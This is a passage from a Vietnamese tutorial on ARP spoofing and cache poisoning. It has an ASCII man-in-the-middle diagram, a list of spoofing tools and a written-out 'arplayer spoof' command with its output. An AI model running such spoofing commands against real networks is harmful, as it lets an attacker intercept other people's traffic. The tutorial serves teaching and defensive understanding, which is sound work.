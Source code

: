 #### ARP spoof ( giả mạo ARP)

Ngay cả khi thường là computer respond từ  ARP request, thì bất kỳ máy tính nào cũng có thể respond nó. Vì vậy, kẻ tấn công có thể respond tất cả các ARP requests để mạo danh các máy tính khác.

Tuy nhiên không phải lúc nào máy tính cũng thực hiện các yêu cầu ARP , với việc sử dụng bộ nhớ cache ARP thì máy tính sẽ giảm được số lượng request mà nó cần thực hiện. 

```text
$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.101            ether   e4:fd:a1:09:bf:a1   C                     wlp1s0
192.168.1.1              ether   00:e0:4c:d8:ca:89   C                     wlp1s0
```

Các máy tính cũng lắng nghe response ARP đối với các thay đổi mà không cần thực hiện request, vì vậy kẻ tấn công có thể gửi response để đầu độc bộ nhớ cache ARP của nạn nhân.

```none
  
        1)  I am 192.168.1.1           1)    I am 192.168.1.101    
         (MAC de:ad:be:ef:13:37)        (MAC de:ad:be:ef:13:37)
     .--------------<<<------------. .------------->>>---------------.
     |                             | |                               |
     v                             ^ ^                               v
   .---.   2) To 192.168.1.1      .---.   3) To 192.168.1.1        .---.
  /   /| -------->>>--------->   /   /| -------->>>------------>  /   /|
 .---. |                        .---. |                          .---. |
 |   | '   5) To 192.168.1.101  |   | '   4) To 192.168.1.101    |   | '
 |   |/  <-------<<<----------  |   |/  <-------<<<------------- |   |/ 
 '---'                          '---'                            '---'  
192.168.1.101                   192.168.1.137                   192.168.1.1
e4:fd:a1:09:bf:a1            de:ad:be:ef:13:37              00:e0:4c:d8:ca:89
```


Ta có thể thực hiện một cuộc tấn công giả mạo / đầu độc ARP bằng các công cụ như [ettercap](https://www.ettercap-project.org/) , [bettercap](https://github.com/bettercap/bettercap) , [arpspoof](https://github.com/smikims/arpspoof) hoặc [arplayer](https://github.com/Zer1t0/arplayer) .

```text
$ ./arplayer spoof -I wlp1s0 -vvv -F -b 192.168.1.101 192.168.1.1
Spoofing - telling 192.168.1.101 (e4:fd:a1:09:bf:a1) that 192.168.1.1 is 00:e0:4c:d8:ca:89 (192.168.1.107) every 1.0 seconds (until Ctrl-C)
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
```

Ngoài ra ta có thể thực hiện 1 số tấn công khác như Fake DNS, DHCP, NetBIOS,.......

### Authentication
